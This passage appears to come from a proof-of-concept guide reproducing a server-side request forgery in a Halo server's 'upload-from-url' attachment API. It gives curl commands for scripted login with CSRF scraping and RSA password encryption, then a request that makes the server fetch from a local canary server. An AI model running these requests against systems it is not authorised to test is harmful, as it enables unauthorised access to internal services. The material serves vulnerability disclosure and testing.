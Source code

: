 ```bash
# Terminal 1: Start canary server on port 8889
echo "SSRF_UPLOAD_SUCCESS" > /tmp/upload-canary.txt
python3 -m http.server 8889 --directory /tmp

# You should see: Serving HTTP on 0.0.0.0 port 8889...
```

#### Step 5: Manual Authentication Process

```bash
# Get CSRF token from login page
CSRF_TOKEN=$(curl -s -c cookies.txt "http://localhost:8090/console" | grep -oP 'name="_csrf" value="\K[^"]+')

# Encrypt password using RSA public key (requires Python script)
cat > encrypt_password.py << 'EOF'
import base64, sys
from cryptography.hazmat.primitives import serialization, hashes
from cryptography.hazmat.primitives.asymmetric import padding

password = sys.argv[1]
pub_key_b64 = sys.argv[2]

pub_key_bytes = base64.b64decode(pub_key_b64)
pub_key = serialization.load_der_public_key(pub_key_bytes)
encrypted = pub_key.encrypt(password.encode(), padding.OAEP(
    mgf=padding.MGF1(algorithm=hashes.SHA256()),
    algorithm=hashes.SHA256(), label=None
))
print(base64.b64encode(encrypted).decode())
EOF

ENCRYPTED_PASSWORD=$(python3 encrypt_password.py "your_password" "$(cat public_key.txt)")

# Login with encrypted password
curl -s -b cookies.txt -c cookies.txt -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=your_username&password=${ENCRYPTED_PASSWORD}&_csrf=${CSRF_TOKEN}" \
  "http://localhost:8090/login"
```

#### Step 6: Test SSRF via Upload from URL

```bash
# Terminal 2: Trigger SSRF to canary server
curl -b cookies.txt -X POST \
  -H "Content-Type: application/json" \
  -d '{"url":"http://host.docker.internal:8889/upload-canary.txt","filename":"ssrf-test.txt"}' \
  "http://localhost:8090/apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url"

# Expected output:
# HTTP/1.1 201 Created
# {"metadata":{"name":"..."},"spec":{"displayName":"ssrf-test.txt"}}

# Check Terminal 1 - you should see DUAL requests:
# host.docker.internal - - [DATE] "HEAD /upload-canary.txt HTTP/1.1" 200 -
# host.docker.internal - - [DATE] "GET /upload-canary.txt HTTP/1.1" 200 -
```
